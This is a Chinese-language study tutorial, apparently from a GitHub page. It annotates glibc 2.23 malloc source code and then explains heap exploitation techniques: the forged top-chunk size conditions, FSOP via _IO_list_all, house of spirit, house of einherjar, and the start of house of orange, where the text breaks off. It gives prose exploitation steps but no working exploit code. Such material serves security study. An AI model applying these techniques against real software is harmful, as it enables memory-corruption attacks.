







# House of


学习参考教程




## 前言

在house of 系列学习之前先阅读glibc（2.23）的堆块管理部分的源码

### malloc部分源码分析 <a href="#articlecontentid" id="articlecontentid"></a>

第一次调用malloc时会从\_\_malloc\_hook中取出malloc\_hook\_ini函数指针并执行

```c
static void *
malloc_hook_ini (size_t sz, const void *caller)
{
	__malloc_hook = NULL;			//将__malloc_hook置0
	ptmalloc_init ();				//初始化ptmalloc
	return __libc_malloc (sz);		//回到__libc_malloc
}
```

接下来是\_\_libc\_malloc部分：

```c
void *
__libc_malloc(size_t bytes)
{
  //首先检查是否存在内存分配的 hook 函数，如果存在，调用 hook 函数，并返回，hook 函数主要用于进程在创建新线程过程中分配内存，或者支持用户提供的内存分配函数。
  mstate ar_ptr;
  void *victim;
  
  //判断__malloc_hook中是否有值，有值就当成函数指针调用
  void *(*hook)(size_t, const void *) = atomic_forced_read(__malloc_hook);
  //atomic_forced_read 是汇编语句，用于原子读操作，
  //每次只会读取一次，例如调用 malloc_hook_ini 初始化，只会调用一次
  if (__builtin_expect(hook != NULL, 0))
    return (*hook)(bytes, RETURN_ADDRESS(0));

  //获取分配区指针，如果获取分配区失败，返回退出，否则，调用 _int_malloc() 函数分配内存。
  arena_get(ar_ptr, bytes);

  victim = _int_malloc(ar_ptr, bytes); //分配内存在函数_int_malloc中实现
  /* Retry with another arena only if we were able to find a usable arena
     before.  */
    
  
  //如果 _int_malloc() 函数分配内存失败，就会判断使用的分配区是不是主分配区，然后是一些获取分配区，解锁之类的操作。
  if (!victim && ar_ptr != NULL)
  {
    LIBC_PROBE(memory_malloc_retry, 1, bytes);
    ar_ptr = arena_get_retry(ar_ptr, bytes);
    victim = _int_malloc(ar_ptr, bytes);
  }

  if (ar_ptr != NULL)
    (void)mutex_unlock(&ar_ptr->mutex);

  assert(!victim || chunk_is_mmapped(mem2chunk(victim)) ||
         ar_ptr == arena_for_chunk(mem2chunk(victim)));
  return victim;
}

```

总结一下运行流程：

第一次调用 malloc 申请堆空间：首先会跟着 hook 指针进入 `malloc_hook_ini()` 函数里面进行对 `ptmalloc` 的初始化工作，并置空 hook，再调用 `ptmalloc_init()` 和 `__libc_malloc()`；

再次调用 malloc 申请堆空间：malloc() -> \_\_libc\_malloc() -> \_int\_malloc()

然后是核心的函数 **`_int_malloc()`**

<pre class="language-c"><code class="lang-c">static void *
_int_malloc(mstate av, size_t bytes)
{
	  INTERNAL_SIZE_T nb; /* 符合要求的请求大小 */
	  unsigned int idx;   /* 相关的bin指数 */
	  mbinptr bin;        /* 相关的bin */
	
	  mchunkptr victim;     /* 检查/选择的块 */
	  INTERNAL_SIZE_T size; /* its size */
	  int victim_index;     /* its bin index */
	
	  mchunkptr remainder;          /* 被分割的剩余部分 */
	  unsigned long remainder_size; /* its size */
	
	  unsigned int block; /* bit map traverser */
	  unsigned int bit;   /* bit map traverser */
	  unsigned int map;   /* current word of binmap */
	
	  mchunkptr fwd; /* misc temp for linking */
	  mchunkptr bck; /* misc temp for linking */
	
	  const char *errstr = NULL;
	
	
	  checked_request2size(bytes, nb);//取得对齐后的size值赋值给nb
	  //checked_request2size将请求分配的内存大小 bytes 转换为需要分配下去的 chunk 实际大小 nb。
	  //Ptmalloc 内部分配都是以 chunk 为单位，根据 chunk 的大小
	  //决定如何分配满足条件的 chunk，达到分配最小的 size 的同时符合对齐要求的目的
	  
	  /* 没有可用的arena，随机分配一块内存并返回 */
	 //topchunk不满足用户要求，尝试使用sysmalloc来进行内存分配
	  if (__glibc_unlikely(av == NULL)){
		void* p = sysmalloc(nb, av);
		if (p != NULL)
	  	alloc_perturb(p, bytes);
	        return p;
	  }
	  //先检查是否属于 fast bins 范围内，尝试分配链中的 chunk 出去
	  if ((unsigned long)(nb) &#x3C;= (unsigned long)(get_max_fast()))
	  {
	    //根据所需 chunk 的大小获得该 chunk 所属 fast bin 的 index。
	    idx = fastbin_index(nb);
	      
	    //从链中取出第一个 chunk，并调用 chunk2mem() 函数返回用户所需的内存块。
	    mfastbinptr *fb = &#x26;fastbin(av, idx);
	    mchunkptr pp = *fb;
	    do
	    {
	      victim = pp;
	      if (victim == NULL)
	        break;
	    } while ((pp = catomic_compare_and_exchange_val_acq(fb, victim->fd, victim)) != victim);
	    if (victim != 0)
	    {
	      if (__builtin_expect(fastbin_index(chunksize(victim)) != idx, 0))
	      {
	        errstr = "malloc(): memory corruption (fast)";
	      errout:
	        malloc_printerr(check_action, errstr, chunk2mem(victim), av);
	        return NULL;
	      }
	      check_remalloced_chunk(av, victim, nb);
	      void *p = chunk2mem(victim);
	      alloc_perturb(p, bytes);
	      return p;
	    }
	  }
	  //然后检查small bin
	  if (in_smallbin_range(nb))
	  {
	    idx = smallbin_index(nb);
	      
	    //根据 index 获得某个 small bin 的空闲 chunk 双向循环链表表头,在 if 语句里将最后一个 chunk 赋值给 victim。
	    bin = bin_at(av, idx);
	    //如果 victim 与表头相同，表示该链表为空，不能从 small bin 的空闲 chunk 链表中分配。
	    //下面都是 victim 与表头不相同的情况。
	    if ((victim = last(bin)) != bin)
	    {
	      //如果 victim 为 0，表示所属 small bin 还没有初始化为双向循环链表，调用 malloc_consolidate() 函数将 fast bins 中的 chunk 合并。
	      if (victim == 0) /* initialization check */
	        malloc_consolidate(av);
	      //否则说明有合适的 chunk 在对应的 bin 链，将 victim 从 small bin 的双向循环链表中取出，设置 victim chunk 的 inuse 标志，该标志处于 victim chunk 的下一个相邻 chunk 的 size 字段的第一个 bit。从 small bin 中取出 victim 也可以用 unlink() 宏函数，只是这里没有使用。
	      else
	      {
	        bck = victim->bk;
	        //经典的通过检查 victim 的 bck 的 fd 指针是否指向 victim，来确定链表是否有被破坏。
	        if (__glibc_unlikely(bck->fd != victim))
	        {
	          errstr = "malloc(): smallbin double linked list corrupted";
	          goto errout;
	        }
	        //脱链。
	        set_inuse_bit_at_offset(victim, nb);
	        bin->bk = bck;
	        bck->fd = bin;
	          
	        //接着判断当前分配区是否为非主分配区，如果是，将 victim chunk 的 size 字段中的表示非主分配区的标志 bit 清零，最后调用 chunk2mem() 函数获得 chunk 的实际可用的内存指针，将该内存指针返回给应用层。
	        if (av != &#x26;main_arena)
	          victim->size |= NON_MAIN_ARENA;
	        check_malloced_chunk(av, victim, nb);
	        void *p = chunk2mem(victim);
	        alloc_perturb(p, bytes);
	        return p;
	      }
	    }
	  }
//有两种情况当大小符合small bin但是无法获取chunk的情况：
// 1.当对应的 small bin 中没有空闲 chunk。
// 2.对应的 small bin 还没有初始化完成，这时就会调用 malloc_consolidate。

//如果 chunk 不属于 small bins，那么就一定属于 large bins，这里只直接进行 malloc_consolidate

<strong>	else {
</strong>		idx = largebin_index (nb);        //计算所需大小对应large bins的下标
		if (have_fastchunks (av))         //判断是否存在属于fast bins的空闲chunk
			malloc_consolidate (av);        //合并所有的fast bin
	}
	
	//可能会发生bin中chunk切割分配的操作，接下来的循环处理分割的chunk，unsorted bin
	for (;; )
	{
		int iters = 0;
		/* 反向遍历unsorted bins双向循环链表，直到候选chunk指向头节点 */
		while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
		{
			bck = victim->bk;
			//判断chunk大小是否合法
			if (__builtin_expect (victim->size &#x3C;= 2 * SIZE_SZ, 0)
				|| __builtin_expect (victim->size > av->system_mem, 0))
					/* 如果不合法就执行malloc_printerr打印错误信息 */
					malloc_printerr (check_action, "malloc(): memory corruption", chunk2mem (victim), av);
			
			size = chunksize (victim);     //若合法则取出size位
			
			/*
				If a small request, try to use last remainder if it is the
				only chunk in unsorted bin.  This helps promote locality for
				runs of consecutive small requests. This is the only
				exception to best-fit, and applies only when there is
				no exact fit for a small chunk.
			*/
			
			/* 如果这个chunk大小属于small bins
			   且unsorted bins中只有一个chunk，
			   且这个chunk为last remainder chunk，
			   且这个chunk的大小大于所需的size+MINSIZE */
			if (in_smallbin_range (nb) &#x26;&#x26;
				bck == unsorted_chunks (av) &#x26;&#x26;
				victim == av->last_remainder &#x26;&#x26;
				(unsigned long) (size) > (unsigned long) (nb + MINSIZE))
			{
				/* split and reattach remainder */
				/* 从这个remainder中取出所需的部分，与表头形成双向循环链表 */
				remainder_size = size - nb;       //计算取出所需部分后的剩余部分
				remainder = chunk_at_offset (victim, nb);    //获得chunk指针
				unsorted_chunks (av)->bk = unsorted_chunks (av)->fd = remainder;  //arena指向remainder
				av->last_remainder = remainder;       //设置新的remainder
				remainder->bk = remainder->fd = unsorted_chunks (av);             //remainder指向arena
				
				/* 如果剩余部分大小不属于small bins，则只能时largebins
				   因此需要将fd_nextsize和bk_nextsize清空，unsorted bin无需这两个成员 */
				if (!in_smallbin_range (remainder_size))
				{
					remainder->fd_nextsize = NULL;
					remainder->bk_nextsize = NULL;
				}
				
				/* 设置chunk的相关信息 */
				set_head (victim, nb | PREV_INUSE |
				(av != &#x26;main_arena ? NON_MAIN_ARENA : 0));
				set_head (remainder, remainder_size | PREV_INUSE);
				set_foot (remainder, remainder_size);
				
				check_malloced_chunk (av, victim, nb);
				void *p = chunk2mem (victim);     //取得用户部分可用的内存指针
				alloc_perturb (p, bytes);
				return p; //返回应用层
			}
			
			/* remove from unsorted list */
			/* 将bin从unsortedbin中取出 */
			unsorted_chunks (av)->bk = bck;
			bck->fd = unsorted_chunks (av);
			
			/* Take now instead of binning if exact fit */
			
			/* 若size位等于所需大小，则设置标志位，然后将bin取出并返回用户指针 */
			if (size == nb)
			{
				set_inuse_bit_at_offset (victim, size);
				if (av != &#x26;main_arena)
				victim->size |= NON_MAIN_ARENA;
				check_malloced_chunk (av, victim, nb);
				void *p = chunk2mem (victim);
				alloc_perturb (p, bytes);
				return p;     //返回应用层
			}
			
			/* place chunk in bin */
			/* 若size属于small bins，则将chunk加入到bck和fwd之间，作为small bins的第一个chunk */
			if (in_smallbin_range (size))
			{
				victim_index = smallbin_index (size);
				bck = bin_at (av, victim_index);
				fwd = bck->fd;
			}
			
			/* 若size属于large bins，则将chunk加入到bck和fwd之间，作为large bin的第一个chunk */
			else
			{
				victim_index = largebin_index (size);
				bck = bin_at (av, victim_index);
				fwd = bck->fd;
				
				/* maintain large bins in sorted order */
				if (fwd != bck)   //若fwd不等于bck，说明large bins中存在空闲chunk
				{
					/* Or with inuse bit to speed comparisons */
					size |= PREV_INUSE;
					/* if smaller than smallest, bypass loop below */
					assert ((bck->bk->size &#x26; NON_MAIN_ARENA) == 0);
					
					/* 如果当前size比最后一个chunk size还要小，则将当前size的chunk加入到chunk size链表尾
					   然后将所有大小的链表取出首个chunk链到一起，方便查找 */
					if ((unsigned long) (size) &#x3C; (unsigned long) (bck->bk->size))
					{
						fwd = bck;
						bck = bck->bk;
						
						victim->fd_nextsize = fwd->fd;
						victim->bk_nextsize = fwd->fd->bk_nextsize;
						fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
					}
					else
					{
						assert ((fwd->size &#x26; NON_MAIN_ARENA) == 0);
						/* 正向遍历chunk size链表，找到第一个chunk大小小于等于当前大小的chunk */
						while ((unsigned long) size &#x3C; fwd->size)
						{
							fwd = fwd->fd_nextsize;
							assert ((fwd->size &#x26; NON_MAIN_ARENA) == 0);
						}
						
						/* 若已经存在相同大小的chunk，则将当前chunk插入到同大小chunk链表的尾部 */
						if ((unsigned long) size == (unsigned long) fwd->size)
							/* Always insert in the second position.  */
							fwd = fwd->fd;
						/* 否则延伸出一个大小等于当前size的chunk链表，将该链表加入到chunk size链表尾 */
						else
						{
							victim->fd_nextsize = fwd;
							victim->bk_nextsize = fwd->bk_nextsize;
							fwd->bk_nextsize = victim;
							victim->bk_nextsize->fd_nextsize = victim;
						}
						bck = fwd->bk;
					}
				}
				else  //large bins中没有 chunk，直接将当前 chunk 加入 chunk size链表
					victim->fd_nextsize = victim->bk_nextsize = victim;
			}
			
			/* 将当前chunk加入large bins的空闲链表中 */
			mark_bin (av, victim_index);
			victim->bk = bck;
			victim->fd = fwd;
			fwd->bk = victim;
			bck->fd = victim;
			
			/* 最多遍历10000个unsorted bin，节约时间 */
			#define MAX_ITERS       10000
			if (++iters >= MAX_ITERS)
			break;
		}
		
		/*
			If a large request, scan through the chunks of current bin in
			sorted order to find smallest that fits.  Use the skip list for this.
		*/
		
		/* 当处理完unsorted bins后，使用最佳匹配法匹配chunk */
		
		if (!in_smallbin_range (nb))      //判断chunk是否位于large bins中
		{
			bin = bin_at (av, idx);
			
			/* skip scan if empty or largest chunk is too small */
			/* 判断large bins是否为空，以及链表中的最大size是否满足所需大小 */
			if ((victim = first (bin)) != bin &#x26;&#x26; (unsigned long) (victim->size) >= (unsigned long) (nb))
			{
				/* 遍历chunk size链表，找到大于等于所需大小的chunk链表 */
				victim = victim->bk_nextsize;
				while (((unsigned long) (size = chunksize (victim)) &#x3C; (unsigned long) (nb)))
					victim = victim->bk_nextsize;
				
				/* Avoid removing the first entry for a size so that the skip
				   list does not have to be rerouted.  */
				/* 为了尽量不破坏链表结构，尝试取出victim->fd作为候选chunk */
				if (victim != last (bin) &#x26;&#x26; victim->size == victim->fd->size)
				victim = victim->fd;
				
				/* 计算剩余size，然后断链 */
				remainder_size = size - nb;
				unlink (av, victim, bck, fwd);
				
				/* Exhaust */
				/* 若剩余部分小于MIN_SIZE，则将整个chunk分配给应用层（可以搞事情嗷） */
				if (remainder_size &#x3C; MINSIZE)
				{
					set_inuse_bit_at_offset (victim, size);
					if (av != &#x26;main_arena)
					victim->size |= NON_MAIN_ARENA;
				}
				/* Split */
				else
				{
					/* 获得剩余部分chunk指针 */
					remainder = chunk_at_offset (victim, nb);
					/* We cannot assume the unsorted list is empty and therefore
					   have to perform a complete insert here.  */
					/* 剩余部分作为新chunk加入到unsorted bins中 */
					bck = unsorted_chunks (av);
					fwd = bck->fd;
					if (__glibc_unlikely (fwd->bk != bck))
					{
						errstr = "malloc(): corrupted unsorted chunks";
						goto errout;
					}
					remainder->bk = bck;
					remainder->fd = fwd;
					bck->fd = remainder;
					fwd->bk = remainder;
					/* 若剩余部分大小属于large bin，则将fd_nextsize和bk_nextsize清零
					   因为这两个指针对于unsorted bin无用 */
					if (!in_smallbin_range (remainder_size))
					{
						remainder->fd_nextsize = NULL;
						remainder->bk_nextsize = NULL;
					}
					
					/* 设置各种标志位 */
					set_head (victim, nb | PREV_INUSE |
					(av != &#x26;main_arena ? NON_MAIN_ARENA : 0));
					set_head (remainder, remainder_size | PREV_INUSE);
					set_foot (remainder, remainder_size);
				}
				check_malloced_chunk (av, victim, nb);
				void *p = chunk2mem (victim);     //获取用户部分指针  
				alloc_perturb (p, bytes);
				return p;     //返回应用层
			}
		}


</code></pre>

注意在\_int\_malloc函数试图使用 top chunk，但 top chunk 也不能满足分配的要求时，会执行如下分支

```cpp
/*
Otherwise, relay to handle system-dependent cases
*/
else {
      void *p = sysmalloc(nb, av);
      if (p != NULL && __builtin_expect (perturb_byte, 0))
        alloc_perturb (p, bytes);
      return p;
}
```

此时 ptmalloc 已经不能满足用户申请堆内存的操作，需要执行 sysmalloc 来向系统申请更多的空间。 但是对于堆来说有 mmap 和 brk 两种分配方式，我们需要让堆以 brk 的形式拓展，之后原有的 top chunk 会被置于 unsorted bin 中。

综上，我们要实现 brk 拓展 top chunk，但是要实现这个目的需要绕过一些 libc 中的 check。 首先，malloc 的尺寸不能大于mmp\_.mmap\_threshold

```cpp
if ((unsigned long)(nb) >= (unsigned long)(mp_.mmap_threshold) && (mp_.n_mmaps < mp_.n_mmaps_max))
```

如果所需分配的 chunk 大小大于 mmap 分配阈值，默认为 128K，并且当前进程使用 mmap() 分配的内存块小于设定的最大值，将使用 mmap() 系统调用直接向操作系统申请内存。\
在 sysmalloc 函数中存在对 top chunk size 的 check，如下

```cpp
assert((old_top == initial_top(av) && old_size == 0) ||
     ((unsigned long) (old_size) >= MINSIZE &&
      prev_inuse(old_top) &&
      ((unsigned long)old_end & pagemask) == 0));
```

这里检查了 top chunk 的合法性，如果第一次调用本函数，top chunk 可能没有初始化，所以可能 old\_size 为 0。 如果 top chunk 已经初始化了，那么 top chunk 的大小必须大于等于 MINSIZE，因为 top chunk 中包含了 fencepost，所以 top chunk 的大小必须要大于 MINSIZE。其次 top chunk 必须标识前一个 chunk 处于 inuse 状态，并且 top chunk 的结束地址必定是页对齐的。此外 top chunk 除去 fencepost 的大小必定要小于所需 chunk 的大小，否则在\_int\_malloc() 函数中会使用 top chunk 分割出 chunk。\
我们总结一下伪造的 top chunk size 的要求

1. 伪造的 size 必须要对齐到内存页
2. size 要大于 MINSIZE(64位下的0x10)
3. size 要小于之后申请的 chunk size + MINSIZE(0x10)
4. size 的 prev inuse 位必须为 1 &#x20;


### FSOP <a href="#id-44437975_fsop" id="id-44437975_fsop"></a>

FSOP 是 File Stream Oriented Programming 的缩写，根据前面对 FILE 的介绍得知进程内所有的\_IO\_FILE 结构会使用\_chain 域相互连接形成一个链表，这个链表的头部由\_IO\_list\_all 维护。

FSOP 的核心思想就是劫持\_IO\_list\_all 的值来伪造链表和其中的\_IO\_FILE 项，但是单纯的伪造只是构造了数据还需要某种方法进行触发。FSOP 选择的触发方法是调用\_IO\_flush\_all\_lockp，这个函数会刷新\_IO\_list\_all 链表中所有项的文件流，相当于对每个 FILE 调用 fflush，也对应着会调用\_IO\_FILE\_plus.vtable 中的\_IO\_overflow。

```
int
_IO_flush_all_lockp (int do_lock)
{
  ...
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
  {
       ...
       if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
               && _IO_OVERFLOW (fp, EOF) == EOF)
           {
               result = EOF;
          }
        ...
  }
}
```

<figure><figcaption></figcaption></figure>

而\_IO\_flush\_all\_lockp 不需要攻击者手动调用，在一些情况下这个函数会被系统调用：

1. 当 libc 执行 abort 流程时
2. 当执行 exit 函数时
3. 当执行流从 main 函数返回时

综上，FSOP的大致利用思路就是首先构造一个虚假的IO\_FILE结构体，在其中修改值使得mod、write\_plt、write\_base等满足绕过条件，然后构造虚假vtable表来进行劫持，再修改其中将要调用函数的指针即可。 &#x20;

## house of spirit

影响范围：2.23---至今

### 漏洞成因 <a href="#lou-dong-cheng-yin" id="lou-dong-cheng-yin"></a>

堆溢出写

### 漏洞利用

利用堆溢出，修改 `chunk size`，伪造出 `fake chunk`，然后通过堆的释放和排布（堆分水），控制 `fake chunk`。`house of spirit` 的操作思路有很多，比如可以按如下操作进行利用：

* 申请 `chunk A、chunk B、chunk C、chunk D`
* 对 `A` 写操作的时候溢出，修改 `B` 的 `size` 域，使其能包括 `chunk C`
* 释放 `B`，然后把 `B` 申请回来，再释放 `C`，则可以通过读写 `B` 来控制 `C` 的内容


## house of einherjar

### 影响范围 <a href="#shi-yong-fan-wei-1" id="shi-yong-fan-wei-1"></a>

* `2.23`—— 至今
* 可分配大于处于 `unsortedbin` 的 `chunk`

### 漏洞成因 <a href="#lou-dong-cheng-yin-1" id="lou-dong-cheng-yin-1"></a>

溢出写、`off by one`、`off by null`

### 漏洞利用

利用 `off by null` 修改掉 `chunk` 的 `size` 域的 `P` 位，绕过 `unlink` 检查，在堆的后向合并过程中构造出 `chunk overlapping`。

* 申请 `chunk A、chunk B、chunk C、chunk D`，`chunk D` 用来做 `gap`，`chunk A、chunk C` 都要处于 `unsortedbin` 范围
* 释放 `A`，进入 `unsortedbin`
* 对 `B` 写操作的时候存在 `off by null`，修改了 `C` 的 `P` 位
* 释放 `C` 的时候，堆后向合并，直接把 `A、B、C` 三块内存合并为了一个 `chunk`，并放到了 `unsortedbin` 里面
* 读写合并后的大 `chunk` 可以操作 `chunk B` 的内容，`chunk B` 的头

可以理解为`unlink`攻击


## house of orange <a href="#id-25-house-of-orange" id="id-25-house-of-orange"></a>

### 漏洞成因

堆溢出写

### 影响范围

* `2.23`——`2.26`
* **没有 `free`**
* 可以 `unsortedbin attack`
* 在 `glibc-2.24` 后加入了 `vtable` 的 `check`，不能任意地址伪造 `vatble` 了，但是可以利用 `IO_str_jumps` 结构进行利用。
* 在 `glibc-2.26` 后，`malloc_printerr` 不再刷新 `IO` 流了，所以该方法失效

### 利用原理

`house of orange` 可以说是开启了堆与 `IO` 组合利用的先河，是非常经典、漂亮、精彩的利用组合技。利用过程还要结合 `top_chunk` 的性质，利用过程如下：

**stage1**

* 申请 `chunk A`，假设此时的 `top_chunk` 的 `size` 为 `0xWXYZ`
